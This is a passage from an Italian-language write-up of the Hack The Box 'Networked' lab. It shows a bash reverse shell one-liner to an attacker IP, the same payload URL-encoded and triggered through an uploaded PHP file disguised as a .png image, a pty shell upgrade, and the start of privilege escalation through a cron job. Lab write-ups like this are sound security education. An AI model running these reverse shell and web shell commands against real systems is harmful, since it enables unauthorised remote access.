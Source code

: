 ```text
"bash -c 'bash -i >& /dev/tcp/10.10.14.7/1234 0>&1'"
```

```text
http://10.10.10.146/uploads/10_10_14_7.php.png?c=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.7/1234+0>%261'
```

In questo modo ottengo una shell:

<p align="center">
  <img src="/Immagini/Linux-Box/Networked/networked-4.png" />
</p>

Eseguo l'upgrade della shell con il seguente comando:

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

Purtroppo l'utente attuale (_apache_) non possiede il primo flag.


## Privilege Escalation

Navigando tra le directory trovo quella dell'utente _guly_:

```text
drwxr-xr-x. 2 guly guly 4096 Sep  6  2022 .
drwxr-xr-x. 3 root root   18 Jul  2  2019 ..
lrwxrwxrwx. 1 root root    9 Sep  7  2022 .bash_history -> /dev/null
-rw-r--r--. 1 guly guly   18 Oct 30  2018 .bash_logout
-rw-r--r--. 1 guly guly  193 Oct 30  2018 .bash_profile
-rw-r--r--. 1 guly guly  231 Oct 30  2018 .bashrc
-r--r--r--. 1 root root  782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root   44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly   33 Nov  9 10:18 user.txt
```

Ispeziono il contenuto del file _corntab.guly_:

```text
cat crontab.guly
*/3 * * * * php /home/guly/check_attack.php
```
